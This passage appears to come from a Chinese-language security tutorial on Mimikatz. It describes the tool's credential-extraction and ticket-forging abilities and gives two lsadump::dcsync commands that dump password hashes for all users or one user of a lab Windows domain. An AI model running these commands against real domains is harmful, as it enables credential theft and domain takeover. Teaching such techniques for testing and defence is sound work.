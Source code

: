 ##### [Mimikatz](#toc_mimikatz)

项目地址：[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

项目介绍：mimikatz用于从Windows操作系统内存中提取明文密码、散列、pin码和kerberos票据，同时mimikatz还可以执行传递散列、传递票证或构建黄金票证。  
工具使用：

a、获取所有域内用户的账户信息

lsadump::dcsync /domain:hacke.testlab /all /csv

[![image.png](assets/1698894155-4f90a6e5b827dcd76bfa454a8c142fe6.png)](https://storage.tttang.com/media/attachment/2022/09/30/99540f31-cf28-4732-9217-817b93184a2f.png)

b、通过使用/user参数指定域用户名来获取特定用户的所有帐户信息，包括其密码哈希

lsadump::dcsync /domain:hacke.testlab /user:testuser
